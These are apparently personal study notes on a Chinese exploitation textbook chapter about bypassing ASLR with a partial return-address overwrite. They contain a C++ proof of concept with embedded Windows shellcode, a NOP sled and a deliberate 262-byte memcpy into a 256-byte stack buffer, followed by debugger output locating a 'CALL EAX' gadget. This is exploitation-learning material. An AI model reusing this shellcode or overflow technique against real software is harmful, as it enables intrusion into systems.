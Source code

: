 # notes about chapter13
## from 13.2 攻击未启用 ASLR 的模块
## from 13.3 利用部分覆盖进行定位内存地址
codes:

```C++
#include<string.h>
#include"stdlib.h" 
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"//168

"\x90\x90\x90\x90\x90\x90\x90\x90"//176
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"//256
"\x90\x90\x90\x90"

"\x90\x90"
;
char * test()
{
	char tt[256]; 
	memcpy(tt,shellcode,262); 

	_asm int 3;
	return tt;
}
int main()
{
	char temp[200]; 
	test();
	return 0;
}

```

覆盖完成后：

eax->shellcode起始地址：

![](./dbg1.JPG)

由于aslr只是让基址进行了随机化，所以可以用off by one的思路将地址的后两个字节覆盖，从而运行在随机化的基址基础上的偏移的指令，此时覆盖了最后两个字节：

![](./dbg2.JPG)

所以只要在能覆盖的地址范围内找到类似jmp eax的指令即可。

找到的指令：  
```
Log data, 条目 742
 地址=000A141C
 消息=Found  CALL EAX at 0xa141c     Module:  C:\Users\admin\Desktop\0day\exp398\Release\exp398.exe

```

使用第一个"\x1C\x14"即可。

![](./success.JPG)

## 13.4  利用 Heap spray 技术定位内存地址
